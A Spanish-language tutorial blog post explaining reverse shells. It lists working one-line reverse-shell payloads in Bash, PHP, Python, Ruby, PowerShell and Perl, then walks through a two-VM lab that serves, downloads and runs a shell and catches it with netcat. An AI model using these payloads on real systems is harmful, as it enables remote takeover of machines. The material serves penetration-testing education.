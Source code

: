 ```yaml
---
layout: post
title: Que es y como crear una reverse shell
subtitle: Explicando las reverse shells
cover-img: /assets/img/reverse-shell/icono.jpg
thumbnail-img: /assets/img/reverse-shell/icono.jpg
tags: [linux, fácil, reverse shell, explicación]
excerpt: "Las reverse shells nos permiten introducirnos en la máquina de la víctima haciendo que esta se conecte a nosotros. En este post vamos a ver que es una reverse shell, como crearla y como utilizarla en pruebas de penetración."
---
```




## ¿Qué es una reverse shell?

Una shell directa (bind shell) es una terminal de comandos que se conecta desde la máquina del atacante hacia la víctima. 
Una shell inversa (reverse shell), por el contrario, hace que el ordenador vulnerado se conecte al del hacker. Por lo tanto, una reverse shell, es un código malicioso que nos permite conectarnos a la víctima a través de la ejecución de este.

## Diferentes reverse shells en lenguajes de programación:

Bash:
```
bash -i >& /dev/tcp/IP/PUERTO 0>&1
```

PHP:
```
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/<IP_Atacante>/<PUERTO> 0>&1'"); ?>
```
Python:
```
export RHOST="IP";export RPORT=PUERTO;python3 -c 'import 
sys,socket,os,pty;s=socket.socket();
s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for 
fd in (0,1,2)];pty.spawn("sh")'
```

Ruby:
```
ruby -rsocket -e'spawn("sh",[:in,:out,:err]=>TCPSocket.new("IP",PUERTO))'
```

Powershell:
```
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object 
System.Net.Sockets.TCPClient("IP",PUERTO);$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) 
-ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, 
$i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + 
(pwd).Path + "> ";$sendbyte = 
([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,
$sendbyte.Length);$stream.Flush()};$client.Close()
```
Perl: 
```
perl -e 'use Socket;$i="IP";$p=PUERTO;
socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));
if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");
open(STDERR,">&S");exec("sh -i");};' 
```
<br>
Existen muchísimas más reverse shells, pero estas son las más utilizadas. Hay que tener en cuenta que no podemos escoger un puerto cualquiera, puesto que hay unos cuantos que requieren permisos de root. Los más utilizados son el 4444, 1234 y el 443.

## Conectándonos con una reverse shell a una máquina víctima:

El único requisito para poder hacer esto es tener dos máquinas virtuales kali linux (que sean kali linux es opcional).

El primer punto a tener en cuenta es que, vamos a usar una máquina víctima y una máquina de atacante, así que hay que decidir cuál es cuál. Una vez sabemos cuál es cuál vamos a empezar. En mi caso la IP de la máquina de atacante es 192.168.47.156, la IP de la máquina víctima es 192.168.47.139.

![](/assets/img/reverse-shell/IP1.png)

![](/assets/img/reverse-shell/IP2.png)


Lo siguiente que debemos hacer es seleccionar una reverse shell. En este caso vamos a utilizar una en bash. Vamos a hacer lo siguiente:

![](/assets/img/reverse-shell/rever1.png)

```
#!/bin/bash
bash -i >& /dev/tcp/IP/PUERTO 0>&1
```

Hemos creado un directorio para poder trabajar cómodamente. Después creamos el archivo llamado reverse.sh (podemos ponerle el nombre que queramos siempre que tenga la extensión .sh). Ahora vamos a abrir un servidor con python para que la máquina víctima se descargue y ejecute el archivo:

![](/assets/img/reverse-shell/rever2.png)


Lo siguiente es ir a la máquina víctima. Una vez ahí ponemos la IP del atacante en el navegador. Después nos descargarnos el archivo haciendo click en este:

![](/assets/img/reverse-shell/rever3.png)


Ahora vamos a la carpeta Descargas y le damos permisos de ejecución con chmod:

![](/assets/img/reverse-shell/rever4.png)


Lo siguiente es ejecutar la reverse shell, pero antes nos vamos a poner a la escucha en la máquina de atacante con el comando nc -lvnp 4444:

![](/assets/img/reverse-shell/rever5.png)

![](/assets/img/reverse-shell/rever6.png)


Ya tenemos acceso a la máquina víctima (tengo el mismo nombre de usuario en las dos máquinas).
Ahora podemos movernos libremente por el sistema. Le vamos a dejar un mensaje a la víctima:

![](/assets/img/reverse-shell/rever7.png)

![](/assets/img/reverse-shell/rever8.png)

<br>
<br>
Espero que os haya gustado y hayáis comprendido que es una reverse shell. Si tenéis alguna sugerencia podéis contactarme. <br>
Hasta la próxima!!!


